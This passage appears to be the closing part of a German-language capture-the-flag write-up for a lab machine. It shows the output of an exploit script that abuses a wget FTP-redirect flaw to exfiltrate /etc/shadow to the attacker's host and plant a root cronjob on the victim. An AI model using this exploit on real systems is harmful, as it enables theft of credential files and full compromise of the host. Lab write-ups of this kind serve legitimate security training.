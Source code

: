 ```shell
atanas@kotarak-dmz:/root$ authbind python exploit.py
Ready? Is your FTP server running?
FTP found open on 10.10.15.158:21\. Let's go then

Serving wget exploit on port 80...

We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wetrc via ftp redirect vuln. It should land in /root
10.0.3.133 - - [14/Mar/2018 19:43:04] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.15.158:21/.wgetrc
We have a volunteer requesting /archive.tar.gz by POST :)

Received POST from wget, this should be the extracted /etc/shadow file:

---[begin]---
950#########ZENSIERT#########e2c
---[eof]---

Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [14/Mar/2018 19:45:04] "POST /archive.tar.gz HTTP/1.1" 200 -
Fie was served. Check on /root/hacked-via-wget on the victim's host in a minute! :)
```

Vielen Dank für's durchlesen. :)